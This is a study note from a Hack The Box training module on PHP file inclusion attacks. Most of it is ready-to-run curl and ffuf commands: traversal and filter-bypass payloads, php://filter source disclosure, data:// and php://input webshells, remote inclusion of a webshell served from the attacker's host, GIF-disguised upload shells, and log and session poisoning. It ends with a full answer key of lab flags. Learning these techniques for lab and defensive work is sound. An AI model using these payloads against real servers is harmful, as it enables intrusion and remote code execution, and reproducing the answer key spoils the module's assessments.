

# File Inclusion (HTB Supplementary)

#LFI #RFI #DirectoryTraversal #PHPFilters #PHPWrappers #LogPoisoning #SessionPoisoning #FileUpload #GIFMagicBytes #AutomatedScanning #DoubleURLEncoding #HTBSupplementary

**HTB File Inclusion module**, supplements [[Common Web Application Attacks#9.1-9.2. File Inclusion|Module 9 file inclusion]]. The Offsec module covers basic traversal, LFI, RFI, php://filter, and data:// wrapper. This module adds: non-recursive filter bypass variants, PHP session poisoning, GIF magic bytes + LFI upload technique, data:// with base64-encoded payload, automated parameter + LFI fuzzing with ffuf, double URL-encoding bypass, and a multi-technique skills assessment chain.

Already in vault (cross-referenced): basic `../` traversal, URL-encoded `%2e%2e/` bypass, plain `data://text/plain,` wrapper, php://filter base64-encode, basic log poisoning setup, RFI via http.server. See [[Common Web Application Attacks#9.2. File Inclusion Vulnerabilities|9.2]], [[File Inclusion & Traversal|Command Appendix]], [[File Inclusion & Traversal (Decision Tree)|Decision Tree]].

> 🔁 Cross-refs: [[Common Web Application Attacks#9.1. Directory Traversal|9.1]], [[Common Web Application Attacks#9.2. File Inclusion Vulnerabilities|9.2]], [[File Inclusion & Traversal|Command Appendix]], [[File Inclusion & Traversal (Decision Tree)|Decision Tree]], [[File Upload Attacks (HTB Supplementary)]]

---

## Outstanding Sections

- [x] FI.1. LFI Overview and Basic Traversal
- [x] FI.2. Basic Bypasses (non-recursive filter bypass variants)
- [x] FI.3. PHP Filters (allow_url_include check + source disclosure)
- [x] FI.4. PHP Wrappers (data:// with base64 pipeline)
- [x] FI.5. Remote File Inclusion (RFI)
- [x] FI.6. LFI + File Uploads (GIF magic bytes)
- [x] FI.7. Log Poisoning (PHP session poisoning + Apache log poisoning)
- [x] FI.8. Automated Scanning (parameter discovery + LFI-Jhaddix)
- [x] FI.9. File Inclusion Prevention (php.ini disable_functions)
- [x] FI.10. Skills Assessment (multi-technique chain)

---

## FI.1. LFI Overview and Basic Traversal

LFI (Local File Inclusion) is when a web application includes a file from the server using a parameter value without sanitising path traversal sequences. The simplest payload:

```bash
# Read /etc/passwd — confirm traversal depth by counting dirs from the web root
curl -s "http://TARGET:PORT/index.php?language=../../../../etc/passwd"

# Find users starting with "b"
curl -s "http://TARGET:PORT/index.php?language=../../../../etc/passwd" | grep ^b

# Read any file you know the path of
curl -s "http://TARGET:PORT/index.php?language=../../../../usr/share/flags/flag.txt" | grep "HTB"
```

**Traversal depth:** count the number of directories from the web root to `/`. A standard Apache install at `/var/www/html` is 4 levels deep, so `../../../../etc/passwd` covers it. When in doubt, use more `../`, extra levels that go above root are silently ignored by the OS.

**Q1 Answer (user starting with b):** `barry`
**Q2 Answer (flag.txt):** `HTB{n3v3r_tru$t_u$3r_!nput}`

#### Tags: #LFI #DirectoryTraversal #EtcPasswd

---

## FI.2. Basic Bypasses — Non-Recursive Filter Bypass

Some apps filter `../` by replacing it with an empty string, but do so only once (non-recursively). When `../` is stripped, payloads that nest the sequence so that stripping one instance reveals another bypass the filter:

**Non-recursive bypass variants:**
```
....//  →  after stripping ../ from the middle: ../
..././  →  after stripping ./ from the middle: ../
```

Full traversal payloads using these patterns:
```
# Bypass 1: ....//
http://TARGET/index.php?language=languages/....//....//....//....//....//flag.txt

# Bypass 2: ..././
http://TARGET/index.php?language=languages/..././..././..././..././..././flag.txt
```

```bash
# curl version with bypass 2
curl -s 'http://TARGET:PORT/index.php?language=languages/..././..././..././..././..././flag.txt' | grep 'HTB'
```

> 🔍 Worth remembering generally: when a basic `../` payload fails but `%2e%2e/` also fails, try the nested bypass variants before assuming the injection point is truly unreachable. Non-recursive strip is a common developer mistake. The Offsec module notes this at [[Common Web Application Attacks#9.1.3. Encoding Special Characters|9.1.3]], but these exact nested forms are tested separately here.

> 🔁 Similar to: [[Common Web Application Attacks#9.1.3. Encoding Special Characters|9.1.3]] URL-encoded traversal, same goal (bypass a filter on the literal `../`), different mechanism (nesting vs encoding).

**Q1 Answer:** `HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}`

#### Tags: #LFI #FilterBypass #NonRecursiveBypass #DirectoryTraversal

---

## FI.3. PHP Filters — Source Code Disclosure + Config Discovery

`php://filter/read=convert.base64-encode/resource=FILENAME` reads the file as base64 instead of executing it. This lets you read `.php` source without triggering the PHP interpreter.

### Step 1: Fuzz for PHP files

```bash
ffuf -s -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ \
    -u http://TARGET:PORT/FUZZ.php
```

Expected: returns filenames without the `.php` extension (e.g. `index`, `en`, `es`, `configure`). Config/admin-looking names are high-value targets.

### Step 2: Read source via base64 filter

```
http://TARGET:PORT/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

The page responds with a large base64 blob embedded in HTML.

### Step 3: Extract the base64 cleanly (bypass HTML wrapping)

When the base64 is wrapped in HTML, extracting it by hand invites corruption. Use grep + sed to strip the HTML:

```bash
# W1BI is the start of "W1BIUF..." (base64 for [PHP) — adjust if the blob starts differently
curl -s 'http://TARGET:PORT/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini' \
    | grep "W1BI" \
    | sed 's/ \{12\}//g' \
    | sed 's/<p class="read-more">//g' > configBase64.txt
```

### Step 4: Decode and search

```bash
cat configBase64.txt | base64 -d | grep 'allow_url_include'
cat configBase64.txt | base64 -d | grep 'DB_PASSWORD'
```

**Useful target files via php://filter:**
- `configure` / `config` / `configuration`, often holds DB creds, API keys
- `../../../../etc/php/7.4/apache2/php.ini` — check `allow_url_include` before attempting data:// or RFI
- `index` — see what files the app includes, find more injection points

> 🔧 Technique: always check `allow_url_include` in `php.ini` before spending time on data:// or RFI. If it's Off, both techniques will silently fail. The php://filter read of php.ini is the standard way to confirm this without SSH access.

> 🔍 Worth remembering generally: the `php://filter` path doesn't require `allow_url_include`, it works purely locally. It's the safe first step whenever you want to read PHP source without tripping the interpreter or needing write access anywhere.

**Q1 Answer (DB password from configure.php):** `HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}`

#### Tags: #PHPFilters #SourceCodeDisclosure #Base64Decode #PHPini

---

## FI.4. PHP Wrappers — data:// with Base64 Payload

`data://text/plain;base64,PAYLOAD` embeds a base64-encoded payload directly in the URL parameter. No file write needed, but requires `allow_url_include = On` in php.ini.

### Step 1: Confirm allow_url_include is On

Use the php://filter method from FI.3 to read php.ini and confirm:
```bash
cat configBase64.txt | base64 -d | grep 'allow_url_include'
# Expected: allow_url_include = On
```

### Step 2: Base64-encode the webshell

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
# Output: PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

### Step 3: URL-encode the base64 string

Base64 output contains `+` and `=` which break URL parsing. URL-encode them:

```bash
python3 -c 'import urllib.parse; print(urllib.parse.quote("PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg=="))'
# Output: PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D
```

### Step 4: Execute commands

```bash
# List root directory — grep -v "<.*>" strips HTML tags from the response
curl -s 'http://TARGET:PORT/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls+/' | grep -v "<.*>"

# Read the flag file (note: ls output shows the flag filename first)
curl -s 'http://TARGET:PORT/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat+/FLAGFILE.txt' | grep -v "<.*>"
```

> 🔍 Worth remembering generally: the base64 + URL-encode pipeline is more reliable than the plain `data://text/plain,<?php echo system('id');?>` form because it avoids the URL-unsafe characters in the raw PHP payload. The plain form often breaks on `?`, `$`, `(`, `)`, `;`, the base64 approach sidesteps all of that.

> 🔁 Similar to: [[Common Web Application Attacks#9.2.2. PHP Wrappers|9.2.2]] plain data://, same idea, base64 encoding is more robust for complex payloads.

**Q1 Answer:** `HTB{d!$46l3_r3m0t3_url_!nclud3}`

#### Tags: #PHPWrappers #DataWrapper #Base64 #RCE #AllowURLInclude

---

## FI.5. Remote File Inclusion (RFI)

Include a webshell hosted on your own machine. Requires `allow_url_include = On`.

```bash
# Create the webshell
cat << 'EOF' > webShell.php
<?php system($_GET['cmd']); ?>
EOF

# Host it (Python http.server is simpler than PHP for a static file serve)
python3 -m http.server 8000
# Expected: Serving HTTP on 0.0.0.0 port 8000

# Exploit: include your webshell remotely
curl -w "\n" -s 'http://TARGET/index.php?language=http://PWNIP:8000/webShell.php&cmd=ls+/' | grep -v "<.*>"

# Find the flag
curl -w "\n" -s 'http://TARGET/index.php?language=http://PWNIP:8000/webShell.php&cmd=ls+/exercise/' | grep -v "<.*>"
curl -w "\n" -s 'http://TARGET/index.php?language=http://PWNIP:8000/webShell.php&cmd=cat+/exercise/flag.txt' | grep -v "<.*>"
```

**Find your tun0 IP:**
```bash
ip a | grep tun0
```

> 🔁 Similar to: [[Common Web Application Attacks#9.2.3. Remote File Inclusion (RFI)|9.2.3]], same technique. The walkthrough here uses `python3 -m http.server` instead of php.server for simplicity when just serving one static `.php` file.

**Q1 Answer:** `99a8fc05f033f2fc0cf9a6f9826f83f4`

#### Tags: #RFI #RemoteFileInclusion #WebShell #AllowURLInclude

---

## FI.6. LFI + File Uploads (GIF Magic Bytes)

When you can upload files but the server checks the extension or MIME type, prepend the GIF magic bytes (`GIF8`) to a PHP webshell. Most image-type checks look only at magic bytes and/or extension, not at the full file content.

### Step 1: Create the malicious GIF/PHP hybrid

```bash
cat << 'EOF' > shell.gif
GIF8<?php system($_GET['cmd']); ?>
EOF

# Verify it looks like a GIF to the OS:
file shell.gif
# Expected: shell.gif: GIF image data 26736 x 8304
```

### Step 2: Upload via the file upload form

Navigate to the upload page, select `shell.gif`, and upload. The server accepts it as an image.

### Step 3: Find the uploaded file path

View the page source after upload, look for the uploaded filename in an `` tag or a response message. Common paths: `/profile_images/`, `/uploads/`, `/img/`.

### Step 4: Include via LFI

```bash
# List root directory
curl -s -w "\n" 'http://TARGET:PORT/index.php?language=./profile_images/shell.gif&cmd=ls+/' | grep -v "<.*>"
# Note: GIF8 prefix appears before command output — ignore it when reading the flag filename

# Read the flag file (path from previous ls, strip GIF8 from output)
curl -s 'http://TARGET:PORT/index.php?language=./profile_images/shell.gif&cmd=cat+/FLAGFILE.txt' | grep -v "<.*>"
```

> 🔍 Worth remembering generally: the `GIF8` magic bytes appear at the start of command output too (the PHP interpreter echoes the magic bytes before reaching your `<?php` tag). Don't mistake this for part of the filename, when you do `cat /flagfile.txt`, the output starts with `GIF8HTB{...}`. Strip the prefix.

> 🔧 Technique: this technique requires knowing the path to the uploaded file. That's why the "read page source after upload" step is critical, the path is usually disclosed in the response. If it isn't, try common upload directories (`/uploads/`, `/upload/`, `/files/`, `/media/`, `/profile_images/`) or use the php://filter source-read trick (FI.3) to read the upload handler's source code and find where it saves files.

> 🔁 Similar to: [[File Upload Attacks (HTB Supplementary)]], the upload bypass technique is the same; the LFI inclusion for execution is the new layer on top. Without LFI, the upload alone doesn't give RCE unless the file ends up in a web-accessible directory AND the server executes it.

**Q1 Answer:** `HTB{upl04d+lf!+3x3cut3=rc3}`

#### Tags: #LFI #FileUpload #GIFMagicBytes #MIME #ImageBypass #RCE

---

## FI.7. Log Poisoning

Two techniques: PHP session file poisoning and Apache access.log User-Agent poisoning.

### Technique A: PHP Session File Poisoning

PHP stores session data in a file at `/var/lib/php/sessions/sess_PHPSESSID`. If the session file includes any parameter value you can control, you can write a PHP snippet into it, then include the session file via LFI.

**Step 1: Get your PHPSESSID**
Open browser DevTools → Application/Storage tab → Cookies → copy `PHPSESSID` value.

**Step 2: Read the current session file via LFI**
```
http://TARGET:PORT/index.php?language=/var/lib/php/sessions/sess_PHPSESSID_VALUE
```
Observe what's in the file, look for a field whose value comes from a URL parameter you control (e.g. `page|s:X:"yourvalue";`).

**Step 3: Poison the session file**

If the `language` parameter itself writes to the session:
```
http://TARGET:PORT/index.php?language=poisonTest
```
Re-read the session file, if `poisonTest` now appears, that parameter controls a session field.

**Step 4: Write the webshell into the session file**
URL-encode the PHP webshell and use it as the parameter value:
```
http://TARGET:PORT/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
This writes `<?php system($_GET["cmd"]); ?>` into the session file.

**Step 5: Execute commands via LFI + session inclusion**
```
http://TARGET:PORT/index.php?language=/var/lib/php/sessions/sess_PHPSESSID_VALUE&cmd=pwd
```

> 🔧 Technique: the session file poisoning only works if (a) the parameter value lands in the session file, and (b) the session file is accessible via LFI. PHP stores sessions in `/var/lib/php/sessions/` by default, but this can be overridden in php.ini, read it via php://filter if the default path doesn't work.

**Log Poisoning Q1 Answer:** `/var/www/html`

---

### Technique B: Apache Access Log User-Agent Poisoning

Apache logs every request's User-Agent into `/var/log/apache2/access.log`. If you can include this log file via LFI and you can control the User-Agent, you can poison the log with a PHP webshell.

**Step 1: Confirm Apache access.log is readable via LFI**
```
http://TARGET:PORT/index.php?language=/var/log/apache2/access.log
```
If log entries appear in the response, the file is readable and you can proceed.

**Step 2: Poison the log via Burp Suite**

Intercept any request to the target with Burp → send to Repeater → change User-Agent to a PHP webshell:
```
User-Agent: <?php system($_GET['cmd']); ?>
```
Forward the request. The webshell is now stored in access.log.

**Step 3: Execute commands via LFI + log inclusion**
```
GET /index.php?language=/var/log/apache2/access.log&cmd=ls+/ HTTP/1.1
```

> 🔍 Worth remembering generally: every subsequent request to the server from Burp/curl will also be logged, potentially adding noise. Keep the LFI + cmd URL as the only request after poisoning so the log doesn't grow too large and the webshell entry stays near the end where PHP will still reach it during include.

**Other log file targets** (try these if access.log is unreadable):
- `/var/log/nginx/access.log` — Nginx
- `/var/log/apache2/error.log` — Apache error log
- `/proc/self/fd/X` — file descriptors of the current process (can include open log handles)
- `/var/log/sshd.log` or `/var/log/auth.log`. SSH auth log (poison via a crafted SSH username like `<?php system($_GET['cmd']); ?>` as the username in an SSH attempt)

**Log Poisoning Q2 Answer:** `HTB{1095_5#0u1d_n3v3r_63_3xp053d}`

#### Tags: #LogPoisoning #SessionPoisoning #LFI #RCE #ApacheLog #PHPSESSID

---

## FI.8. Automated Scanning (ffuf)

### Phase 1: Parameter discovery

```bash
# First run without filter to identify the noise size
ffuf -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
     -u 'http://TARGET:PORT/index.php?FUZZ=key'
# Note the Size column — all noise responses have the same size (e.g. 2309)

# Re-run filtering out that size
ffuf -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
     -u 'http://TARGET:PORT/index.php?FUZZ=key' \
     -fs 2309
# Different-sized response = the parameter that changes the page's behavior
# Result here: "view"
```

### Phase 2: LFI payload fuzzing

```bash
# First run without filter to identify noise size for the discovered parameter
ffuf -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ \
     -u 'http://TARGET:PORT/index.php?view=FUZZ'
# Note the size of erroneous responses (e.g. 1935)

# Re-run filtering noise
ffuf -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ \
     -u 'http://TARGET:PORT/index.php?view=FUZZ' \
     -fs 1935
# Successful LFI payloads return a different (larger) size because they include real file content

# Use any confirmed payload to read the flag
curl -s 'http://TARGET:PORT/index.php?view=../../../../../../../../../../../../../../../../../flag.txt'
```

**SecLists LFI wordlists:**
| Wordlist | Path | Use case |
|----------|------|----------|
| LFI-Jhaddix.txt | `/usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt` | Broad LFI payload set (870 entries) |
| LFI-LFISuite-pathtotest.txt | `/usr/share/SecLists/Fuzzing/LFI/` | Alternative broad set |
| burp-parameter-names.txt | `/usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt` | Parameter name discovery |

> 🔍 Worth remembering generally: the two-phase approach (parameter discovery first, LFI payload fuzzing second) is the standard. Don't skip phase 1, hidden parameters with LFI are the whole point. An app may have a documented `page=` parameter that's safe and a hidden `view=` parameter that isn't. ffuf parameter discovery finds both.

**Q1 Answer:** `HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}`

#### Tags: #AutomatedScanning #ffuf #LFI #ParameterDiscovery #LFIJhaddix #SecLists

---

## FI.9. File Inclusion Prevention

**Defensive context only — understanding how to recognise and verify server-side mitigations.**

**php.ini — Apache PHP configuration:**
```bash
# Full path
/etc/php/7.4/apache2/php.ini

# Find via SSH if version unknown
sudo find / -name php.ini
# Returns: /etc/php/7.4/cli/php.ini (CLI) and /etc/php/7.4/apache2/php.ini (Apache web)
```

**Key directives to check:**
- `allow_url_include = Off` — disables data:// and http:// wrappers for inclusion
- `allow_url_fopen = Off` — disables remote URL reads (more aggressive, may break legitimate functionality)
- `open_basedir = /var/www/html` — restricts file access to a specific directory tree
- `disable_functions = exec,passthru,shell_exec,system,...` — blocks OS command execution functions

**Testing disable_functions is working:**
```bash
# Create a test webshell
sudo echo "<?php system('id'); ?>" > /var/www/html/shell.php
sudo service apache2 restart

# Tail the error log and hit the webshell
sudo tail -f /var/log/apache2/error.log
# In a browser: http://TARGET/shell.php

# Expected error.log entry when system() is disabled:
# PHP Warning: system() has been disabled for security reasons in /var/www/html/shell.php on line 1
```

The phrase completing the error log blank: **"security"** (`system() has been disabled for security reasons`).

**Q1 Answer:** `/etc/php/7.4/apache2/php.ini`
**Q2 Answer:** `security`

#### Tags: #Prevention #PHPini #DisableFunctions #AllowURLInclude

---

## FI.10. Skills Assessment — Multi-Technique Chain

**Target:** multi-page web app. Comments reviewing → LFI via image API → source code read → upload webshell → double URL-encode bypass → RCE.

### Step 1: Discover the LFI injection point

Images load from `/api/image.php?p=<md5hash>`. Test with traversal payloads in Burp Repeater:
- `../../../../etc/passwd` fails (filtered)
- `....//....//....//....//etc/passwd` succeeds (non-recursive bypass from FI.2)

> 📸 Screenshot: Burp Repeater showing `....//` payload in p parameter returning /etc/passwd content

### Step 2: Read source code via php://filter

Use the confirmed LFI to read source files:
```
GET /api/image.php?p=php://filter/read=convert.base64-encode/resource=contact
GET /api/image.php?p=php://filter/read=convert.base64-encode/resource=../api/apply
```

From `contact.php` source: a `region` parameter is validated (blocks `.` and `/`), URL-decoded, then included with `include()`. Files in `/uploads/` would be includeable, if we can upload a PHP file there.

From `/api/apply.php` source: uploaded files are moved to `/uploads/` and named using `md5_file()` of the file contents.

### Step 3: Create the webshell and predict its filename

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
md5sum shell.php
# Output: fc023fcacb27a7ad72d605c4e300b389  shell.php
```

The file will be named `fc023fcacb27a7ad72d605c4e300b389` on the server (no extension added by the upload handler).

### Step 4: Upload the webshell

Navigate to `/apply.php` → upload `shell.php` (the form accepts any extension despite asking for docx/pdf, no server-side extension validation).

> 📸 Screenshot: /apply.php file upload form with shell.php selected

### Step 5: Include the webshell via double URL-encoding

The `region` parameter blocks `.` and `/`. Single URL-encoding (`%2E%2E%2F`) still fails the check because the server decodes once and sees `../` before the include. Double URL-encoding fools the single-decode validation check:

```
%252E%252E%252F  →  (server decode 1): %2E%2E%2F  (no dots/slashes, passes check)
                 →  (server decode 2 via include): ../  (actual traversal)
```

Full payload in Burp Repeater:
```
GET /contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=id HTTP/1.1
```

```
# Read the flag (flag is a .txt file in /)
GET /contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=cat+/*.txt
```

> 📸 Screenshot: Burp Repeater showing double-URL-encoded region parameter returning id command output

> 🔧 Technique: double URL-encoding (`%25` is the percent sign itself encoded, so `%252E` → `%2E` after one decode) bypasses any server-side filter that URL-decodes once and then checks. The include/file-read layer decodes again. This pattern comes up when an app has a validation layer and an execution layer that each do their own decoding.

**Skills Assessment attack chain (Mermaid):**


**Q1 Answer:** `eedbb78d4800aa45573840ed6bd2d1e3`

#### Tags: #SkillsAssessment #LFI #DoubleURLEncoding #FileUpload #SourceCodeDisclosure #RCE #PHPFilters

---

## All Q&A Answers

| Section | Q# | Answer |
|---------|----|--------|
| LFI | 1 | `barry` |
| LFI | 2 | `HTB{n3v3r_tru$t_u$3r_!nput}` |
| Basic Bypasses | 1 | `HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}` |
| PHP Filters | 1 | `HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}` |
| PHP Wrappers | 1 | `HTB{d!$46l3_r3m0t3_url_!nclud3}` |
| RFI | 1 | `99a8fc05f033f2fc0cf9a6f9826f83f4` |
| LFI + File Uploads | 1 | `HTB{upl04d+lf!+3x3cut3=rc3}` |
| Log Poisoning | 1 | `/var/www/html` |
| Log Poisoning | 2 | `HTB{1095_5#0u1d_n3v3r_63_3xp053d}` |
| Automated Scanning | 1 | `HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}` |
| File Inclusion Prevention | 1 | `/etc/php/7.4/apache2/php.ini` |
| File Inclusion Prevention | 2 | `security` |
| Skills Assessment | 1 | `eedbb78d4800aa45573840ed6bd2d1e3` |

---

## External Resources

- [HackTricks. LFI](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/file-inclusion/README.md)
- [PayloadsAllTheThings. File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- SecLists: `/usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt` (870 LFI payloads)
- SecLists: `/usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt` (parameter names)

---

## Module Summary

LFI lets you read server files and (with the right conditions) execute code. The filter bypass ladder: plain `../` → URL-encoded `%2e%2e/` → non-recursive nested (`....//`, `..././`) → double URL-encoding (`%252E%252E%252F` when one decode is validation + second decode is include). Source code disclosure via `php://filter/read=convert.base64-encode/resource=` doesn't need `allow_url_include`. Code execution options in order of availability: (1) GIF magic bytes + file upload + LFI include, (2) PHP session file poisoning if a URL param controls session content, (3) Apache access.log User-Agent poisoning via Burp, (4) data:// wrapper with base64 payload if `allow_url_include = On`, (5) RFI if `allow_url_include = On`. Automated discovery: ffuf parameter names → ffuf LFI-Jhaddix, always filter on noise size with `-fs`. Skills assessment pattern: LFI confirms → filter source via php://filter → find upload handler → compute md5 filename → upload + include with bypass.


---

## HTB Module Quick Reference

Commands formatted for use with the [[Pre-Engagement Kali Setup]] variable block.

```bash
# ============================================================
# BASIC LFI PROBES
# ============================================================
# Start simple — absolute path
curl "http://$BoxIP:$WebPort/index.php?language=/etc/passwd"

# Path traversal
curl "http://$BoxIP:$WebPort/index.php?language=../../../../etc/passwd"

# With an approved prefix (bypass include path restriction)
curl "http://$BoxIP:$WebPort/index.php?language=./languages/../../../../etc/passwd"

# ============================================================
# LFI FILTER BYPASSES
# ============================================================
# Non-recursive filter bypass (....// collapses to ../ after stripping ../)
curl "http://$BoxIP:$WebPort/index.php?language=....//....//....//....//etc/passwd"

# URL-encoded traversal (bypasses string-matching WAF)
curl "http://$BoxIP:$WebPort/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64"

# Null byte (PHP < 5.5 — terminates appended extension)
curl "http://$BoxIP:$WebPort/index.php?language=../../../../etc/passwd%00"

# ============================================================
# PHP SOURCE DISCLOSURE
# ============================================================
# php://filter with base64 encoding — reads PHP without executing it
curl "http://$BoxIP:$WebPort/index.php?language=php://filter/read=convert.base64-encode/resource=config"
# Then: echo "<b64_output>" | base64 -d

# ============================================================
# RCE VIA PHP WRAPPERS
# ============================================================
# data:// wrapper — execute inline PHP (requires allow_url_include=On)
# Payload: <?php system($_GET["cmd"]); ?>  → base64 = PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+
curl "http://$BoxIP:$WebPort/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id"

# php://input wrapper — send PHP via POST body
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' \
  "http://$BoxIP:$WebPort/index.php?language=php://input&cmd=id"

# expect:// wrapper (requires expect extension)
curl -s "http://$BoxIP:$WebPort/index.php?language=expect://id"

# ============================================================
# RFI — REMOTE FILE INCLUSION
# ============================================================
# Host a webshell on your Kali HTTP server
echo '<?php system($_GET["cmd"]); ?>' > www/shell.php
python3 -m http.server 80 -d www/

# Include the remote shell via the vulnerable parameter
curl "http://$BoxIP:$WebPort/index.php?language=http://$LocalIP/shell.php&cmd=id"

# ============================================================
# LFI + UPLOAD → RCE
# ============================================================
# Upload a GIF with PHP payload (bypasses image-only check)
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
# Then include it:
curl "http://$BoxIP:$WebPort/index.php?language=./profile_images/shell.gif&cmd=id"

# ZIP wrapper (upload zip, include inner PHP via zip://)
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
# Include:
curl "http://$BoxIP:$WebPort/index.php?language=zip://shell.zip%23shell.php&cmd=id"

# ============================================================
# LOG POISONING
# ============================================================
# Poison Apache access log via User-Agent header
curl -s "http://$BoxIP:$WebPort/index.php" \
  -A '<?php system($_GET["cmd"]); ?>'

# Then include the log file via LFI
curl "http://$BoxIP:$WebPort/index.php?language=/var/log/apache2/access.log&cmd=id"

# PHP session file poisoning
# 1. Get your PHPSESSID from browser / Burp
# 2. Set the session variable to PHP payload via the vulnerable parameter
# 3. Include: /var/lib/php/sessions/sess_<PHPSESSID>

# ============================================================
# AUTOMATED LFI DISCOVERY
# ============================================================
# Find the injectable parameter first
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
  -u "http://$BoxIP:$WebPort/index.php?FUZZ=value" -fs 2287

# Then fuzz LFI payloads (LFI-Jhaddix covers all common bypass patterns)
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ \
  -u "http://$BoxIP:$WebPort/index.php?language=FUZZ" -fs 2287
```
